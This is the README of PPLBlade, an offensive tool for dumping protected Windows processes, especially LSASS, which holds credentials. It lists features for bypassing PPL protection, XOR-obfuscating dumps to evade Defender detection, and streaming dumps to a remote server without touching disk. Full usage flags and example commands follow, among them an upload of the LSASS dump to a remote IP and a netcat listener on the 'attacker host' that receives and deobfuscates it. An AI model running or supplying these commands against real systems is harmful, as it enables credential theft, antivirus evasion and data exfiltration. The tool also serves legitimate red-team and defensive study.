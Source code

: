 # PPLBlade
Protected Process Dumper Tool

Key functionalities:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk(fileless dump)


```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default "D:\\releasetest\\PPLBlade\\PPLBLADE.SYS")
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

`PPLBlade.exe --mode dothatlsassthing`

Upload the obfuscated LSASS dump onto a remote location:

`PPLBlade.exe --mode dump --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234 --handle procexp --name lsass.exe`

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

